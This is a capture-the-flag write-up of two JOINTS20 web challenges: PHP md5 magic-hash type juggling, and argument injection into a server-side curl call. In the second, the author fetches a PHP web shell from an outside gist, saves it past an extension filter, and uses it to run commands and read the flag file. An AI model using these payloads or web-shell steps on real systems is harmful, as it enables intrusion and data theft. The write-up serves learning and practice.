 ```yaml
---
layout: blog
title: JOINTS20 Web Writeups
date: 2020-05-08T18:31:53.905Z
---
```

JOINTS20 Writeup (WEB)

<!--more-->

This is my writeup on JOINTS20, I could not play it on time so I play the game after it's over

## `ezStringMatching`

from the start, there is nothing suspicious in the web, so I tried to check the network tab on my browser and see this in the header or you can just simply use curl --head CTF.joints.id:40002  to see the header of the request:

```text
HTTP/1.1 200 OK
Host: ctf.joints.id:40002
Date: Mon, 04 May 2020 05:25:04 GMT
Connection: close
X-Powered-By: PHP/7.2.30
Debug: ?debug=v
Content-type: text/html; charset=UTF-8
```

there is debug option on the request, so let's try to identify  ctf.joints.id:40002/?debug

```php
<?
if (!empty($_POST["string1"]) || !empty($_POST["string2"])) {
  $xxx = $_POST["string1"];
  $yyy = $_POST["string2"];
  if ($xxx === $yyy) {
    echo "<center> <p>Match bosqquee!!</p> </center>";
  } else {
    if (md5($xxx) == md5($yyy)) {
      echo "<center> $flag </center>";
    } else {
      echo "<center> <p>Not Match bosqquee!!</p> </center>";
    }
  }
}
```

We can see on the source code, we have to match `md5($xxx) == md5($yyy)` how we can do that? 

Remember that PHP has type juggling because of the loose comparison (using `==` instead of `===`), you can see here for the cheat sheet. 

When using `==` or loosely comparison, the comparison between the operand just see if the value has the same value on the other hand if we use the strict comparison (using `===`) it not only compares the value but also the type. 

TL;DR: we can abuse the == operation, how?

The md5() operation calculates the hash of the value, if the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float.  \
\
The hash value of 240610708 is 0e462097431906509019562988736854 and the hash value of QNKCDZO is 0e830400451993494058024219903391 AND THE PHP WILL TREAT THE COMPUTED HASH THAT STARTS WITH 0e  AS A FLOAT, DAMN. 

![](/images/uploads/fdbc4aec-6cba-4c5d-9701-f39d8caf5fa5.png)

> JOINTS20{b4bytyp3ju99lin9*md5*}

## `Twitter Collection`

this page provides a URL box that we can feel with a link and scrap the image if it succeeds it will send alert:

![](/images/uploads/21083120-c5f2-4a18-a926-91f239a95acc.png)

and it pops up at the bottom of the page, and it stored on the cookie I think? when I flush the cookie, the image disappears, poor waifu.  

and the important thing that is the image is downloaded locally to the server, mine is here `http://ctf.joints.id:10001/downloads/9eed2d697fb5a3fa35e8d1832471a6a8464d49fe/099a95c45237eaa2243500bf145da79534ec8460.jpg` so can we just upload any file?

I try to use some kind of special character in the URL i tried there is two response one is and one is (using `"` and `-`) and bingo, there is  500 internal error:

![](/images/uploads/6b17cc87-f0cb-44e6-be17-ddcd2b5fc77f.png)

and the preview of the error said that

`curl:(22)TherequestedURLreturnederror:404`

we can assume the download process is using curl for you who don't know that is curl you can always check it with man curl or curl --help. The command will be something like this curl <link>.

this is what I'm trying:

* normal query:  `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg`  → success uploaded
* using another link (contains my RCE script) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce.php` → error, PHP file detected
* using another link (contains my RCE script, but change the extension) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce` → error, the URL must be from pixiv?

when I'm trying curl, we can use curl to download multiple files, for example:

```
curl "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_a.jpg "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_b.jpg
```

* trying to upload multiple files the one being from pixiv `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg -o a https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce -o b` → error, https error?
* until this time I'm trying with different payload and I unexpectedly found the correct payload, this is the payload I used: `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" "https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce" -o "rce.ph""p` → success, uploaded RCE

Note: 

* Bypassing the PHP filter using concatenate feature in bash

```shell
~
❯ echo "rce.php"
rce.php

~
❯ echo "rce.ph""p"
rce.php
```

* `-o` means output to a file and the argument after that is the file name with the extension

and viola:

![](/images/uploads/9ed0f832-c9b0-4206-84fd-b5b2e436415a.png)

```shell
❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php"
<br />
<b>Warning</b>:  system(): Cannot execute a blank command in <b>/var/www/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php</b> on line <b>2</b><br />


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls"
cfe8e2872fe2d82029e367879c9f782bee55da0d.jpg
d0b581aff1128cbcb5fb53a9025c7d3f09315abf.jpg
d9d65b15c6f896fb5211124cea5e923f06bd1caa.jpg
dfc6c84d54c615dc3a547503e3fd616c82c2adb8.jpg
ec.xx
rce.php


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls ../.."
apakah_ini_benderanya
collect.php
downloads
favicon.ico
get.php
index.php
license-free.txt
scripts
session.php
styles
styles


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=cat ../../apakah_ini_benderanya"

JOINTS20{ya_benar_ini_benderanya_uwu}JOINTS20{ya_benar_ini_benderanya_uwu}
```

![](/images/uploads/14903bb1-cbee-426f-a8d5-74d76db0ca0f.png)